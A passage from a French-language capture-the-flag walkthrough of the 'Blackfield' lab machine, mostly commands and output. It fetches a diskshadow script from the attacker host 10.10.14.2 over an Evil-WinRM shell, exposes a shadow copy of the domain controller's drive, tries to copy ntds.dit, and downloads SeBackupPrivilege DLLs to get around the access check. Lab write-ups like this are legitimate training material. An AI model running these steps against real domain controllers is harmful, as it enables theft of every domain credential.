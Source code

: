 		    Example: SET CONTEXT CLIENTACCESSIBLE

J'ajoute donc un caractère "C" à chaque fin de ligne.

	kali@kali:~/Blackfield$ cat shadow.txt
	set context persistent nowritersC
	set metadata c:\exfil\metadata.cabC
	add volume c: alias someAliasC
	createC
	expose %someAlias% z:C

Je transferts à nouveau et j'exécute diskshadow.exe

	*Evil-WinRM* PS C:\Users\svc_backup\Desktop> Invoke-WebRequest -Uri "http://10.10.14.2/shadow.txt" -OutFile "shadow.txt"
	*Evil-WinRM* PS C:\Users\svc_backup\Desktop> diskshadow.exe /s shadow.txt
	Microsoft DiskShadow version 1.0
	Copyright (C) 2013 Microsoft Corporation
	On computer:  DC01,  6/16/2020 9:00:04 AM
	
	-> set context persistent nowriters
	-> set metadata c:\exfil\metadata.ca
	-> add volume c: alias someAlias
	-> create
	Alias someAlias for shadow ID {d52a9a78-73aa-4e90-817a-402f13fa02e1} set as environment variable.
	Alias VSS_SHADOW_SET for shadow set ID {df02dfa1-22a1-4765-8c71-e7bbf320f5f6} set as environment variable.
	
	Querying all shadow copies with the shadow copy set ID {df02dfa1-22a1-4765-8c71-e7bbf320f5f6}
	
		    * Shadow copy ID = {d52a9a78-73aa-4e90-817a-402f13fa02e1}               %someAlias%
		            - Shadow copy set: {df02dfa1-22a1-4765-8c71-e7bbf320f5f6}       %VSS_SHADOW_SET%
		            - Original count of shadow copies = 1
		            - Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
		            - Creation time: 6/16/2020 9:00:08 AM
		            - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
		            - Originating machine: DC01.BLACKFIELD.local
		            - Service machine: DC01.BLACKFIELD.local
		            - Not exposed
		            - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		            - Attributes:  No_Auto_Release Persistent No_Writers Differential
	
	Number of shadow copies listed: 1
	-> expose %someAlias% z:
	-> %someAlias% = {d52a9a78-73aa-4e90-817a-402f13fa02e1}
	The shadow copy was successfully exposed as z:\.

Je n'ai toujours pas accès au fichier ntds.dit. Normal.

	*Evil-WinRM* PS C:\Users\svc_backup\Desktop> cp z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
	Access to the path 'z:\windows\ntds\ntds.dit' is denied.

Il faut un moyen de copier en utilisant notre privilège SeBackupPriv. Il suffit d'utiliser 2 DLL ici : https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug

	kali@kali:~/Blackfield$ wget https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll?raw=true
	kali@kali:~/Blackfield$ wget https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll?raw=true
